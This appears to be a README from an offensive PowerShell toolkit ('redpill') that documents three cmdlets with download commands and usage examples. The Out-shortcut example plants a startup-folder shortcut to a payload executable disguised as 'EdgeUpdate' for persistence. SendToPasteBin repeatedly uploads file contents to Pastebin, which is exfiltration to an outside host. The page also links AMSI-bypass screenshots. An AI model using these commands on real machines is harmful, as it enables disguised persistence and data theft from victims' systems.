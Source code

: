 ## Open-Directory.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Open-Directory|Use GUI to open the sellected directory|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

**Download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Open-Directory.ps1" -OutFile "Open-Directory.ps1"
```

**execute:**
```powershell
.\Open-Directory.ps1
```

<br />

## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Out-shortcut|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|SendToPasteBin|Get filepath contents and paste it to pastebin.|User Land||[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -timeout "120" -maxpastes "10" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   
